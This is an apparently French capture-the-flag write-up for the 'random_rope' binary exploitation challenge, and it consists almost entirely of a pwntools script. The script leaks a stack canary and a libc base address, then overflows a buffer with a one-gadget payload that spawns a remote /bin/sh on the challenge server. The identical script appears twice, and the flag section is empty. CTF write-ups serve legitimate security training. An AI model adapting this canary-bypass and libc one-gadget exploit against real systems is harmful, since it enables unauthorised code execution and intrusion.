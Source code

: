 # Description
[Noiche] : Lors de mon évasion, j'ai déroulé une corde sur mon chemin. Suivre la route tracée par cette corde devrait vous amener dans la salle secrète du goulag. Qui sait, vous y trouverez peut-être quelque chose d'intéressant... En tout cas, débrouillez vous !! Moi, je n'y retournerai pas !!
Accès au challenge : `nc ctf.midnightflag.fr 9024`

# Write UP
# 1
```python
#!/usr/bin/python

from pwn import *

elf = ELF('./random_rope')
libc = ELF('./libc-2.28.so')

r = remote('ctf.midnightflag.fr', 9024)

res = r.recv().splitlines()

nums = res[1].split(' : ')[1].split(' ')

canary = int(nums[14]) & 0xffffffff
libc_base = (int(nums[15]) & 0xffffffff) - libc.sym['_IO_2_1_stdout_']

log.success('Canary: %s' % hex(canary))
log.success('libc: %s' % hex(libc_base))

buf = '\x00'*32 # Maximize chances to get one gadget working
buf += p32(canary)
buf += p32(libc_base + 0x3e8d3) * 4 # one gadget

"""
0x3e8d3 execve("/bin/sh", esp+0x40, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x40] == NULL
"""

r.sendline(buf)

r.interactive()
```

# 2
```python
#!/usr/bin/python

from pwn import *

elf = ELF('./random_rope')
libc = ELF('./libc-2.28.so')

r = remote('ctf.midnightflag.fr', 9024)

res = r.recv().splitlines()

nums = res[1].split(' : ')[1].split(' ')

canary = int(nums[14]) & 0xffffffff
libc_base = (int(nums[15]) & 0xffffffff) - libc.sym['_IO_2_1_stdout_']

log.success('Canary: %s' % hex(canary))
log.success('libc: %s' % hex(libc_base))

buf = '\x00'*32 # Maximize chances to get one gadget working
buf += p32(canary)
buf += p32(libc_base + 0x3e8d3) * 4 # one gadget

"""
0x3e8d3 execve("/bin/sh", esp+0x40, environ)
constraints:
  esi is the GOT address of libc
  [esp+0x40] == NULL
"""

r.sendline(buf)

r.interactive()
```

# Flag
- 
